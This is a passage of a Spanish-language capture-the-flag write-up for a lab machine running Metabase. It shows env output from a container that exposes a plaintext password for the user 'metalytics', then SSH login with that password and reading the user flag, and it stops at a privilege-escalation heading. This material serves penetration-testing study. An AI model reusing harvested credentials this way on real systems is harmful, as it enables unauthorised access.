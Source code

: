 Al revisar las variables que tenía dispone el usuario, nos encontramos con unas credenciales del acceso a `Metabase` del usuario `metalytics`.

```bash
47200cf3578f:/$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=47200cf3578f
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```

Probaremos de acceder mediante SSH a través del usuario `metalytics` para verificar si podemos acceder con las credenciales obtenidas. Logramos el acceso y visualizar la flag de **user.txt**.

```bash
❯ ssh metalytics@analytical.htb
metalytics@analytical.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41
metalytics@analytics:~$ cat user.txt 
11dab8814d**********************
```

## Privilege Escalation

### Kernel Exploitation - GameOver(lay)/OverlayFS
